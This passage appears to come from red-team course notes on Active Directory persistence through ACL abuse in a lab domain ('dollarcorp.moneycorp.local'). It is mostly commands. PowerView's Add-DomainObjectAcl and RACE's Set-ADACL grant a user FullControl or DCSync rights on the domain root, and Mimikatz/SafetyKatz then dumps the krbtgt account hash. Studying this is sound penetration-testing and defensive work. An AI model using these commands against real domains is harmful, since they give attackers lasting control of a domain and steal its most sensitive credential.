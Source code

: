 - There are even more interesting ACLs which can be abused. 
- For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".
- Add FullControl rights: 
```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose


#Using ActiveDirectory Module and RACE
Set-ADACL -SamAccountName studentuser1 - DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

- Add rights for DCSync: 
```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose 

#Using ActiveDirectory Module and RACE
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync - Verbose
```

- Execute DCSync: 
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' or C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
